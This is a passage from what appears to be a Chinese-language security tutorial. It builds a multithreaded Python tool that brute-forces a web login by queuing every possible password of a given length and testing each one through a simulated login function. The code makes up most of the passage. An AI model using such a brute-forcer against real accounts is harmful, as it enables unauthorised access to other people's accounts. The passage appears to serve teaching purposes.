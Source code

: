 模拟登陆的功能由之前实现的`login`函数完成，实验demo的口令生成过程比较简单，可以放在构造函数中。编写`brute`函数来负责破解子线程的生成，线程函数为`web_bruter`。首先编写构造函数：

```
# characters为字符串，包含组成口令的所有字符
# threads为线程个数，pwd_len为生成的测试口令的长度
def __init__(self,user,characters,pwd_len,threads):
		self.user = user
		self.found = False
        	self.threads = threads
		print &#39;构建待测试口令队列中...&#39;
		self.pwd_queue = Queue.Queue()
		for pwd in list(itertools.product(characters,repeat=pwd_len)):
			self.pwd_queue.put(&#39;&#39;.join(pwd))
		self.result = None
		print &#39;构建成功!&#39;
```

类中各属性意义如下：

| 属性名 | 含义 | 类型 |
|:-------|:-----|:-----|
| user | 用户账号名称 | 字符串 |
| found | 破解成功的标志 | 布尔值 |
| pwd_queue | 包含所有测试口令的队列Queue | Queue对象 |
| result | 最终破解出的正确口令 | 字符串 |

接着是破解子线程函数`web_bruter`,将它设为私有函数。循环从口令队列中获取测试口令并进行模拟登录测试。如果登录成功，将破解成功的标志属性`self.found`设为`True`以提醒其他线程停止猜解;此外，将当前测试口令保存到`self.result`中，并打印出破解成功的信息。

```
def __web_bruter(self):
		while not self.pwd_queue.empty() and not self.found:
			pwd_test = self.pwd_queue.get()
			if self.__login(pwd_test):
				self.found = True
				self.result = pwd_test
				print &#39;破解 %s 成功，密码为: %s&#39; % (self.user,pwd_test)
			else:
				self.found = False
```

类中的`__login`函数修改下参数即可，此处不再重列。


最后是主线程函数`brute`，由它生成子线程并汇报破解进度。

```
def brute(self):
		for i in range(self.threads):
			t = threading.Thread(target=self.__web_bruter)
			t.start()
			print &#39;破解线程--&gt;%s 启动&#39; % t.ident
		while(not self.pwd_queue.empty()):
			sys.stdout.write(&#39;\r 进度: 还剩余%s个口令 (每1s刷新)&#39; % self.pwd_queue.qsize())
			sys.stdout.flush()
			time.sleep(1)
		print &#39;\n破解完毕&#39;
```
